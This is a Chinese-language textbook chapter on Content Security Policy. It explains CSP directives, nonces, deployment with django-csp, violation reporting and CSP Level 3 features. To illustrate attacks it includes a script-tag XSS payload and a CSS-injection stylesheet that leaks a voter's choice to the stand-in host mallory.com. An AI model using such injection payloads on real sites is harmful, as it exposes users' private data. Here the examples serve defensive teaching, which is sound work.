



# 第十五章：内容安全策略

本章涵盖

+   使用 fetch、navigation 和 document 指令编写内容安全策略

+   使用 `django-csp` 部署 CSP

+   使用报告指令检测 CSP 违规

+   抵抗 XSS 和中间人攻击

服务器和浏览器遵循一个称为*内容安全策略*（*CSP*）的标准，以可互操作地发送和接收安全策略。策略限制了浏览器对响应的操作，以保护用户和服务器。策略的限制旨在防止或减轻各种 Web 攻击。在本章中，您将学习如何使用 `django-csp` 轻松应用 CSP。本章涵盖了 CSP 2 级，并以 CSP 3 级的部分结束。

一个策略通过 `Content-Security-Policy` 响应头从服务器传递到浏览器。策略只适用于它所在的响应。每个策略包含一个或多个指令。例如，假设 bank.alice.com 对每个资源都添加了图 15.1 中显示的 CSP 头部。该头部携带了一个简单的策略，由一个指令组成，阻止浏览器执行 JavaScript。



图 15.1 一个内容安全策略头部使用简单的策略禁止了 JavaScript 的执行。

这个头部如何抵抗 XSS？假设 Mallory 在 bank.alice.com 发现了一个反射型 XSS 漏洞。她编写了一个恶意脚本将 Bob 的所有资金转移到她的帐户中。Mallory 将这个脚本嵌入到一个 URL 中，并将其通过电子邮件发送给 Bob。Bob 又上当了。他无意中将 Mallory 的脚本发送到 bank.alice.com，然后它被反射回来。幸运的是，Bob 的浏览器受到 Alice 的策略的限制，阻止了脚本的执行。Mallory 的计划失败了，在 Bob 的浏览器的调试控制台中只有一个错误消息。图 15.2 说明了 Mallory 的反射型 XSS 攻击失败了。



图 15.2 Alice 的网站使用 CSP 阻止 Mallory 再次进行反射型 XSS 攻击。

这次，Alice 仅通过一个非常简单的内容安全策略勉强阻止了 Mallory。在下一节中，您将为自己编写一个更复杂的策略。

## 15.1 编写内容安全策略

在本节中，您将学习如何使用一些常用指令构建自己的内容安全策略。这些指令遵循一个简单的模式：每个指令由至少一个来源组成。一个*来源*代表浏览器可以从中检索内容的可接受位置。例如，您在上一节中看到的 CSP 头部将一个 fetch 指令 `script-src` 与一个来源组合在一起，如图 15.3 所示。



图 15.3 Alice 的简单内容安全策略的解剖。

为什么使用单引号？

许多来源，如 `none`，使用单引号。这不是一种约定，而是一种要求。CSP 规范要求在实际的响应头中包含这些字符。

这个策略的范围非常狭窄，只包含一个指令和一个来源。这样简单的策略在现实世界中并不有效。一个典型的策略由多个指令组成，用分号分隔，一个或多个来源，用空格分隔。

浏览器在指令具有多个来源时会做出怎样的反应？每个额外的来源都会扩大攻击面。例如，下一个策略将`script-src`与`none`来源和一个方案来源结合在一起。方案来源通过协议（如 HTTP 或 HTTPS）匹配资源。在这种情况下，协议是 HTTPS（分号后缀是必需的）：

```py
Content-Security-Policy: script-src 'none' https:
```

浏览器处理与*任何*来源匹配的内容，而不是*每个*来源。因此，该策略允许浏览器通过 HTTPS 获取任何脚本，尽管有`none`来源。该策略也无法抵抗以下 XSS 有效载荷：

```py
<script src="https:/./mallory.com/malicious.js"></script>
```

一个有效的内容安全策略必须在各种攻击形式和功能开发复杂性之间取得平衡。CSP 通过三个主要的指令类别来实现这种平衡：

+   获取指令

+   导航指令

+   文档指令

最常用的指令是*获取指令*。这个类别是最大的，也可以说是最有用的。

### 15.1.1 获取指令

*获取指令*限制浏览器获取内容的方式。这些指令提供了许多避免或减少 XSS 攻击影响的方法。CSP Level 2 支持 11 个获取指令和 9 种来源类型。为了你的利益和我的利益，涵盖所有 99 种组合是没有意义的。此外，一些来源类型只与一些指令相关，因此本节仅涵盖了与最相关来源结合的最有用指令。它还涵盖了一些要避免的组合。

默认-src 指令

每个良好的策略都以`default-src`指令开头。这个指令很特殊。当浏览器没有收到给定内容类型的显式获取指令时，浏览器会退回到`default-src`。例如，浏览器在加载脚本之前会查看`script-src`指令。如果`script-src`不存在，浏览器会用`default-src`指令替代它。

将`default-src`与`self`来源结合是非常推荐的。与`none`不同，`self`允许浏览器处理来自特定位置的内容。内容必须来自浏览器获取资源的地方。例如，`self`允许 Alice 银行的页面处理来自同一主机的 JavaScript。

具体来说，内容必须与资源具有相同的*来源*。什么是来源？来源由资源 URL 的协议、主机和端口定义。（这个概念不仅适用于 CSP；你将在第十七章再次看到它。）

表 15.1 比较了[`alice.com/path/`](https://alice.com/path/)的来源与其他六个 URL 的来源。

表 15.1 将来源与[`alice.com/path/`](https://alice.com/path/)进行比较

| URL | 匹配的来源？ | 原因 |
| --- | --- | --- |
| **http**://alice.com/path/ | No | Different protocol |
| https://**bob**.com/path/ | No | Different host |
| https://**bank.**alice.com/path/ | No | Different host |
| https://alice.com**:8000**/path/ | No | Different port |
| https://alice.com/**different_path**/ | Yes | Path differs |
| https://alice.com/path/**?param=42** | Yes | Query string differs |

以下 CSP 标头代表您内容安全策略的基础。该策略仅允许浏览器处理与资源相同来源的内容。浏览器甚至会拒绝响应主体中的内联脚本和样式表。这不能防止恶意内容被注入页面，但它确实防止页面中的恶意内容被执行：

```py
Content-Security-Policy: default-src 'self'
```

该策略提供了很多保护，但本身相当严格。大多数程序员希望使用内联 JavaScript 和 CSS 来开发 UI 功能。在下一节中，我将向您展示如何通过内容特定的策略异常在安全性和功能开发之间取得平衡。

script-src 指令

正如其名称所示，`script-src`指令适用于 JavaScript。这是一个重要的指令，因为 CSP 的主要目标是提供一层防御，防止 XSS。之前你看到 Alice 通过将`script-src`与`none`源结合来抵抗 Mallory。这减轻了所有形式的 XSS，但是过于保守。`none`源阻止所有 JavaScript 执行，包括内联脚本以及来自响应的相同来源的脚本。如果您的目标是创建一个极其安全但无聊的站点，这就是您的来源。

`unsafe-inline`来源占据了风险范围的相反端。该来源允许浏览器执行诸如内联`<script>`标签、javascript: URL 和内联事件处理程序之类的 XSS 向量。正如名称所警告的，`unsafe-inline`是有风险的，您应该避免使用它。

你还应该避免`unsafe-eval`来源。该来源允许浏览器从字符串中评估和执行任何 JavaScript 表达式。这意味着以下所有内容都是潜在的攻击向量：

+   `eval(string)`函数

+   `new Function(string)`

+   `window.setTimeout(string, x)`

+   `window.setInterval(string, x)`

如何在`none`的无聊和`unsafe-inline`以及`unsafe-eval`的风险之间取得平衡？通过*nonce*（一次性数字）。粗体字体显示的 nonce 来源包含一个唯一的随机数，而不是`self`或`none`这样的静态值。根据定义，该数字对于每个响应都是不同的：

```py
Content-Security-Policy: script-src 'nonce-EKpb5h6TajmKa5pK'
```

如果浏览器收到该策略，它将执行内联脚本，但只有带有匹配的`nonce`属性的脚本。例如，该策略将允许浏览器执行以下脚本，因为粗体显示的`nonce`属性是匹配的：

```py
<script nonce='EKpb5h6TajmKa5pK'>
   /* inline script */
</script>
```

一个 nonce 来源如何缓解 XSS？假设 Alice 为 bank.alice.com 添加了这一层防御。Mallory 然后发现了另一个 XSS 漏洞，并计划再次向 Bob 的浏览器注入恶意脚本。要成功执行此攻击，Mallory 必须使用 Alice 将要从 Alice 那里收到的相同 nonce 准备脚本。Mallory 事先无法知道 nonce，因为 Alice 的服务器甚至还没有生成它。此外，Mallory 猜对数字的机会几乎为零；在拉斯维加斯赌博会给她比针对 Alice 银行更好的发财机会。

一个 nonce 来源可以缓解 XSS，同时使内联脚本执行。这是最佳选择，既提供了像 `none` 一样的安全性，又像 `unsafe-inline` 一样促进了功能开发。

style-src 指令

正如名称所示，`style-src` 控制浏览器如何处理 CSS。与 JavaScript 一样，CSS 是 Web 开发人员交付功能的标准工具；它也可能被 XSS 攻击利用。

假设 2024 年美国总统选举正在进行中。整个选举只有两个候选人：Bob 和 Eve。有史以来第一次，选民可以在 Charlie 的新网站 ballot.charlie.com 上线上投票。Charlie 的内容安全策略阻止了所有 JavaScript 执行，但未解决 CSS 问题。

Mallory 发现了另一个反射型 XSS 机会。她给 Alice 发送了一个恶意链接。Alice 点击链接并收到了列表 15.1 中显示的 HTML 页面。该页面包含了由 Charlie 撰写的包含两个候选人的下拉列表；它还包含了由 Mallory 植入的样式表。

Mallory 的样式表动态设置了 Alice 所选选项的背景。这个事件触发了一个网络请求来获取背景图像。不幸的是，网络请求还以查询字符串参数的形式向 Mallory 透露了 Alice 的投票情况。Mallory 现在知道了 Alice 投票给了谁。

列表 15.1 Mallory 在 Alice 的浏览器中注入恶意样式表

```py
<html>

    <style>                                                    # ❶
        option[value=bob]:checked {                            # ❷
            background: url(https://mallory.com/?vote=bob);    # ❸
        }
        option[value=eve]:checked {                            # ❹
            background: url(https://mallory.com/?vote=eve);    # ❺
        }
    </style>

    <body>
        ...
        <select id="ballot">
            <option>Cast your vote!</option>
            <option value="bob">Bob</option>                   # ❻
            <option value="eve">Eve</option>                   # ❻
        </select>
        ...
    </body>

</html>
```

❶ Mallory 注入的样式表

❷ 如果 Alice 为 Bob 投票，则触发

❸ 将 Alice 的选择发送给 Mallory

❹ 如果 Alice 为 Eve 投票

❺ 将 Alice 的选择发送给 Mallory

❻ 两位总统候选人

显然，`style-src` 指令应该像 `script-src` 一样受到重视。`style-src` 指令可以与大多数与 `script-src` 相同的源结合使用，包括 `self`、`none`、`unsafe-inline` 和一个 nonce 来源。例如，以下 CSP 标头说明了一个带有 nonce 来源的 `style-src` 指令，如粗体所示：

```py
Content-Security-Policy: style-src 'nonce-EKpb5h6TajmKa5pK'
```

此标题允许浏览器应用以下样式表。如粗体所示，`nonce` 属性值匹配：

```py
<style nonce='EKpb5h6TajmKa5pK'>
   body {
       font-size: 42;
   }
</style>
```

img-src 指令

`img-src` 指令确定浏览器如何获取图像。对于从第三方站点（称为 *内容交付网络* (*CDN*)）托管图像和其他静态内容的站点，此指令通常很有用。从 CDN 托管静态内容可以减少页面加载时间、降低成本并抵消流量峰值。

以下示例演示了如何与 CDN 集成。此标头结合了一个 `img-src` 指令和一个主机源。主机源允许浏览器从特定主机或一组主机获取内容：

```py
Content-Security-Policy: img-src https:/./cdn.charlie.com
```

下面的策略是主机源可以变得多么复杂的一个示例。星号匹配子域和端口。URL 方案和端口号是可选的。主机可以通过名称或 IP 地址指定：

```py
Content-Security-Policy: img-src https:/./*.alice.com:8000
➥                               https:/./bob.com:*
➥                               charlie.com
➥                               http:/./163.172.16.173
```

许多其他获取指令并不像迄今为止涵盖的那些那么有用。表 15.2 总结了它们。一般来说，我建议将这些指令从 CSP 标头中省略。这样，浏览器会回退到 `default-src`，隐式地将每个指令与 `self` 结合起来。当然，在现实世界中，你可能需要根据具体情况放宽一些这些限制。

表 15.2 其他获取指令及其管辖内容

| CSP 指令 | 相关性 |
| --- | --- |
| object-src | <applet>, <embed>, 和 <object> |
| media-src | <audio> 和 <video> |
| frame-src | <frame> 和 <iframe> |
| font-src | @font-face |
| connect-src | 各种脚本接口 |
| child-src | Web workers 和嵌套上下文 |

### 导航和文档指令

导航指令仅有两个。与获取指令不同，当导航指令缺失时，浏览器不会以任何方式回退到 `default-src`。因此，你的策略应该明确包含这些指令。

`form-action` 指令控制用户可以提交表单的位置。将此指令与 `self` 源结合使用是一个合理的默认值。这样可以使你团队中的每个人都能完成他们的工作，同时防止某些类型的基于 HTML 的 XSS 攻击。

`frame-ancestors` 指令控制用户可以导航的位置。我在第十八章中涵盖了这个指令。

文档指令用于限制文档或 Web worker 的属性。这些指令并不经常使用。表 15.3 列出了所有三个指令及一些安全默认值。

表 15.3 文档指令及其管辖内容

| CSP 指令 | 安全默认值 | 相关性 |
| --- | --- | --- |
| base-uri | self | <base> |
| plugin-types | 省略并与 none 结合 | <embed>, <object>, 和 <applet> |
| sandbox | (无值) | <iframe> 的 sandbox 属性 |

部署内容安全策略非常容易。在下一节中，你将学习如何使用一个轻量级的 Django 扩展包来实现这一点。

## 15.2 使用 django-csp 部署策略

你可以在几分钟内使用 `django-csp` 部署内容安全策略。从你的虚拟环境中运行以下命令来安装 `django-csp`：

```py
$ pipenv install django-csp
```

接下来，打开你的设置文件，并将以下中间件组件添加到 `MIDDLEWARE`。`CSPMiddleware` 负责向响应添加一个 `Content-Security-Policy` 头。这个组件由许多设置变量配置，每个都以 `CSP_` 为前缀：

```py
MIDDLEWARE = [
   ...
   'csp.middleware.CSPMiddleware',
   ...
]
```

`CSP_DEFAULT_SRC` 设置指示 `django-csp` 向每个 `Content-Security-Policy` 头添加一个 `default-src` 指令。这个设置期望一个代表一个或多个源的元组或列表。通过在你的 `settings` 模块中添加以下代码来开始你的策略：

```py
CSP_DEFAULT_SRC = ("'self'", )
```

`CSP_INCLUDE_NONCE_IN` 设置定义了一个元组或列表的获取指令。这个集合告诉 `django-csp` 与哪些内容结合 `nonce` 来使用。这意味着你可以允许浏览器独立处理内联脚本和内联样式表。将以下代码添加到你的 `settings` 模块。这允许浏览器处理具有匹配 `nonce` 属性的脚本和样式表：

```py
CSP_INCLUDE_NONCE_IN = ['script-src', 'style-src', ]
```

在你的模板中如何获取有效的 nonce？`django-csp` 为每个请求对象添加了一个 `csp_nonce` 属性。将以下代码放入任何模板中以使用这个功能：

```py
<script nonce='{{request.csp_nonce}}'>   # ❶
   /* inline script */
</script>

<style nonce='{{request.csp_nonce}}'>    # ❶
   body {
       font-size: 42;
   }
</style>
```

❶ 在响应中动态嵌入一个 nonce

通过向 CSP 头添加 `script-src` 和 `style-src` 指令，浏览器在遇到脚本或样式标签时不再回退到 `default-src`。因此，你现在必须明确告诉 `django-csp` 通过 `self` 源和 `nonce` 源发送这些指令：

```py
CSP_SCRIPT_SRC = ("'self'", )
CSP_STYLE_SRC = ("'self'", )
```

接下来，在你的 `settings` 模块中添加以下代码以适应 CDN：

```py
CSP_IMG_SRC = ("'self'", 'https:/./cdn.charlie.com', )
```

最后，使用以下配置设置同时导航指令：

```py
CSP_FORM_ACTION = ("'self'", )
CSP_FRAME_ANCESTORS = ("'none'", )
```

重启你的 Django 项目，并在交互式 Python shell 中运行以下代码。这段代码请求一个资源，并显示其 CSP 头的详细信息。该头部包含了六个指令，以粗体字显示：

```py
>>> import requests
>>> 
>>> url = 'https:/./localhost:8000/template_with_a_nonce/'    # ❶
>>> response = requests.get(url, verify=False)               # ❶
>>> 
>>> header = response.headers['Content-Security-Policy']     # ❷
>>> directives = header.split(';')                           # ❸
>>> for directive in directives:                             # ❸
...     print(directive)                                     # ❸
... 
 default-src 'self'
 script-src 'self' 'nonce-Nry4fgCtYFIoHK9jWY2Uvg=='
 style-src 'self' 'nonce-Nry4fgCtYFIoHK9jWY2Uvg=='
 img-src 'self' https:/./cdn.charlie.com
 form-action 'self'
 frame-ancestors 'none'
```

❶ 请求一个资源

❷ 以编程方式访问响应头

❸ 显示指令

理想情况下，一个策略应该适用于站点上的每一个资源；但实际上，你可能会遇到一些特例。不幸的是，一些程序员为了适应每一个特例而简单地放松了全局策略。随着时间的推移，一个大型站点的策略在积累了太多豁免情况后失去了意义。避免这种情况的最简单方法是为异常资源定制策略。

## 使用个性化策略 15.3

`django-csp` 包具有旨在修改或替换个别视图的 `Content-Security-Policy` 头的装饰器。这些装饰器旨在支持基于类和基于函数的视图的 CSP 特例。

这是一个特殊情况。假设你想要提供下面列表中显示的网页。这个页面链接到谷歌的一个公共样式表，以粗体字显示在这里。该样式表使用了谷歌的自定义字体。

显示 15.2 网页嵌入了来自谷歌的样式表和字体

```py
<html>
  <head>
    <link href='https://fonts.googleapis.com/css?family=Caveat'    # ❶
          rel='stylesheet'>                                        # ❶
    <style nonce="{{request.csp_nonce}}">                          # ❷
      body {                                                       # ❷
        font-family: 'Caveat', serif;                              # ❷
      }                                                            # ❷
    </style>                                                       # ❷
  </head>
    <body>
      Text displayed in Caveat font
    </body>
</html>
```

❶ 由谷歌托管的公共样式表

❷ 一个内联样式表

在前一节中定义的全局策略中，禁止浏览器请求 Google 的样式表和字体。现在假设您想要为这两个资源创建一个异常，而不修改全局策略。以下代码演示了如何使用名为 `csp_update` 的 `django-csp` 装饰器来适应此场景。此示例将主机源附加到 `style-src` 指令，并添加了一个 `font-src` 指令。只有 `CspUpdateView` 的响应会受到影响；全局策略保持不变：

```py
from csp.decorators import csp_update

decorator = csp_update(                          # ❶
 STYLE_SRC='https:/./fonts.googleapis.com',    # ❶
 FONT_SRC='https:/./fonts.gstatic.com')        # ❶

@method_decorator(decorator, name='dispatch')    # ❷
class CspUpdateView(View):
    def get(self, request):
        ...
        return render(request, 'csp_update.html')
```

❶ 动态创建装饰器

❷ 对视图应用装饰器

`csp_replace` 装饰器为单个视图替换了一个指令。以下代码通过将所有 `script-src` 源替换为 `none` 来加强策略，完全禁用了 JavaScript 执行。所有其他指令不受影响：

```py
from csp.decorators import csp_replace

decorator = csp_replace(SCRIPT_SRC="'none'")     # ❶

@method_decorator(decorator, name='dispatch')    # ❷
class CspReplaceView(View):
    def get(self, request):
        ...
        return render(request, 'csp_replace.html')
```

❶ 动态创建装饰器

❷ 对视图应用装饰器

`csp` 装饰器为单个视图替换了整个策略。以下代码用 `default-src` 和 `self` 结合的简单策略覆盖了全局策略：

```py
from csp.decorators import csp

@method_decorator(csp(DEFAULT_SRC="'self'"), name='dispatch')     # ❶
class CspView(View):
    def get(self, request):
        ...
        return render(request, 'csp.html')
```

❶ 创建并应用装饰器

在这三个示例中，装饰器的关键字参数接受一个字符串。此参数也可以是一个字符串序列，以适应多个源。

`csp_exempt` 装饰器省略了单个视图的 CSP 标头。显然，这只应作为最后的手段使用：

```py
from csp.decorators import csp_exempt

@method_decorator(csp_exempt, name='dispatch')     # ❶
class CspExemptView(View):
    def get(self, request):
        ...
        return render(request, 'csp_exempt.html')
```

❶ 创建并应用装饰器

`CSP_EXCLUDE_URL_PREFIXES` 设置省略了一组资源的 CSP 标头。此设置的值是 URL 前缀的元组。`django-csp` 会忽略与元组中任何前缀匹配的请求。显然，如果必须使用此功能，您需要非常小心：

```py
CSP_EXCLUDE_URL_PREFIXES = ('/without_csp/', '/missing_csp/', )
```

到目前为止，您已经了解了 fetch、document 和 navigation 指令如何限制浏览器对特定类型内容的操作。另一方面，报告指令用于在浏览器和服务器之间创建和管理反馈循环。

## 15.4 报告 CSP 违规行为

如果您的策略阻止了一次活跃的 XSS 攻击，您显然希望立即知道。CSP 规范通过报告机制实现了这一点。因此，CSP 不仅仅是一种额外的防御层；它还在其他层次（如输出转义）失败时通知您。

CSP 报告归结为几个报告指令和一个附加的响应头。在这里以粗体显示的 `report-uri` 指令携带一个或多个报告端点 URI。浏览器会通过将 CSP 违规报告发布到每个端点来响应此指令：

```py
Content-Security-Policy: default-src 'self'; report-uri /csp_report/
```

警告：`report-uri` 指令已被弃用。此指令正在逐渐被 `report-to` 指令与 `Report-To` 响应头组合取代。不幸的是，截至本文撰写时，`report-to` 和 `Report-To` 并不被所有浏览器或 `django-csp` 支持。MDN Web 文档 ([`mng.bz/K4eO`](http://mng.bz/K4eO)) 维护着关于哪些浏览器支持此功能的最新信息。

`CSP_REPORT_URI` 设置指示 `django-csp` 在 CSP 头部中添加一个 `report-uri` 指令。这个设置的值是一个 URI 的可迭代对象：

```py
CSP_REPORT_URI = ('/csp_report/', )
```

第三方报告聚合商，如 httpschecker.net 和 report-uri.com，提供商业报告端点。这些供应商能够检测到恶意报告活动并抵御流量峰值。他们还将违规报告转换成有用的图表：

```py
CSP_REPORT_URI = ('https:/./alice.httpschecker.net/report',
                  'https:/./alice.report-uri.com/r/d/csp/enforce')
```

这是由 Chrome 生成的一个 CSP 违规报告的示例。在这种情况下，由 mallory.com 托管的图像被来自 alice.com 的策略阻止：

```py
{
  "csp-report": {
 "document-uri": "https:/./alice.com/report_example/",
    "violated-directive": "img-src",
    "effective-directive": "img-src",
    "original-policy": "default-src 'self'; report-uri /csp_report/",
    "disposition": "enforce",
 "blocked-uri": "https:/./mallory.com/malicious.svg",
    "status-code": 0,
  }
}
```

警告 CSP 报告是收集反馈的一个好方法，但是在一个流行页面上发生的单个 CSP 违规可能会大大增加站点流量。请在阅读本书后不要对自己执行 DOS 攻击。

`CSP_REPORT_PERCENTAGE` 设置用于控制浏览器报告行为的节流。此设置接受介于 0 和 1 之间的浮点数。这个数字代表要接收 `report-uri` 指令的响应的百分比。例如，将其分配给 0 将从所有响应中省略 `report-uri` 指令：

```py
CSP_REPORT_PERCENTAGE = 0.42
```

`CSP_REPORT_PERCENTAGE` 设置要求你用 `RateLimitedCSPMiddleware` 替换 `CSPMiddleware`：

```py
MIDDLEWARE = [
    ...
    # 'csp.middleware.CSPMiddleware',                        # ❶
    'csp.contrib.rate_limiting.RateLimitedCSPMiddleware',    # ❷
    ...
]
```

❶ 移除了 CSPMiddleware

❷ 添加了 RateLimited-CSPMiddleware

在某些情况下，你可能希望部署一个策略而不执行它。例如，假设你正在处理一个旧的站点。你已经定义了一个策略，现在你想估算一下将站点调整到符合规定需要多少工作。为了解决这个问题，你可以使用 `Content-Security-Policy-Report-Only` 头部而不是 `Content-Security-Policy` 头部来部署你的策略。

```py
Content-Security-Policy-Report-Only: ... ; report-uri /csp_report/
```

`CSP_REPORT_ONLY` 设置告知 `django-csp` 使用 `Content-Security-Policy-Report-Only` 头部部署策略，而不是普通的 CSP 头部。浏览器观察策略，如果配置了报告，则报告违规，但不执行策略。`Content-Security-Policy-Report-Only` 头部没有 `report-uri` 指令是无用的：

```py
CSP_REPORT_ONLY = True
```

到目前为止，你已经学到了很多关于 CSP Level 2 ([www.w3.org/TR/CSP2/](https://www.w3.org/TR/CSP2/)) 的知识。这份文档已经被 W3C 公开认可为一项推荐标准。一项标准必须经受严格的审查才能获得这个地位。接下来的部分涵盖了一些 CSP Level 3 ([www.w3.org/TR/CSP3/](https://www.w3.org/TR/CSP3/))。在撰写本文时，CSP Level 3 还处于 W3C 工作草案阶段。这个阶段的文档仍在审查中。

## 15.5 内容安全策略 Level 3

本节涵盖了 CSP Level 3 的一些比较稳定的特性。这些特性是 CSP 的未来，并且目前被大多数浏览器实现。与之前介绍的特性不同，这些特性解决的是中间人攻击而不是 XSS。

`upgrade-insecure-requests` 指令指示浏览器将某些 URL 的协议从 HTTP 升级到 HTTPS。这适用于资源的非导航 URL，例如图像、样式表和字体。这也适用于页面相同域的导航 URL，包括超链接和表单提交。浏览器不会为其他域的导航请求升级协议。换句话说，在 alice.com 的页面上，浏览器将升级到 alice.com 的链接但不会升级到 bob.com：

```py
Content-Security-Policy: upgrade-insecure-requests
```

`CSP_UPGRADE_INSECURE_REQUESTS` 设置告诉 `django-csp` 在响应中添加 `upgrade-insecure-requests` 指令。此设置的默认值为 `False`：

```py
CSP_UPGRADE_INSECURE_REQUESTS = True
```

或者，您可以完全阻止请求，而不是升级协议。 `block-all-mixed-content` 指令禁止浏览器从 HTTPS 请求的页面上的 HTTP 获取资源：

```py
Content-Security-Policy: block-all-mixed-content
```

`CSP_BLOCK_ALL_MIXED_CONTENT` 设置将 `block-all-mixed-content` 指令添加到 CSP 响应头中。此设置的默认值为 `False:`

```py
CSP_BLOCK_ALL_MIXED_CONTENT = True
```

当 `upgrade-insecure-requests` 存在时，浏览器会忽略 `block-all-mixed-content`；这些指令旨在互斥。因此，你应该配置系统以使用最适合你需求的那一个。如果你正在处理具有大量 HTTP URL 的传统网站，我建议使用 `upgrade-insecure-requests`。这样可以让你在过渡期间将 URL 迁移到 HTTPS 而不会破坏任何内容。在其他所有情况下，我建议使用 `block-all-mixed-content`。

## 总结

+   策略由指令组成；指令由源组成。

+   每个额外的源都会扩大攻击面。

+   源由 URL 的协议、主机和端口定义。

+   一次性源在 `none` 和 `unsafe-inline` 之间取得平衡。

+   CSP 是你可以投资的最廉价的防御层之一。

+   报告指令会在其他防御层失败时通知您。
